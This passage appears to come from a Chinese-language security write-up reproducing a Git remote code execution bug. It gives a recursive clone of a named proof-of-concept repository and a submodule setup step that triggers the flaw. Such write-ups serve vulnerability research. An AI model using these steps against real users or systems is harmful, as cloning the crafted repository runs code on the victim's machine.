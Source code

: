 ```

# 本地测试，传到github无需使用此功能
git clone --recursive captain hooked
```  
  
运行git clone --recursive git@github.com:10cks/captain.git GIT-RCE后就可以RCE了:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/bfMXBp6Qpdy9usRaMufv4Ysic530SDKjfcWLumMVDfCDkENzP7yQ3eL3dETDQK2bwicDBExvtLNa5tjl2Y98OYgg/640?wx_fmt=png&from=appmsg "")  
  
参考链接  
  
https://twitter.com/amalmurali47/status/1791566569501573163  
  
  
除此之外，  
不能通过手动修改.gitmodules的方式来对子模块进行设置，会导致远程仓库无法正确进  
行递归。我们需要在生成.gitmodules前就对其进行修改，并且协议需要保持一致:  
```
git submodule add --name x/y "远程仓库" A/modules/x
```  
  
  
  
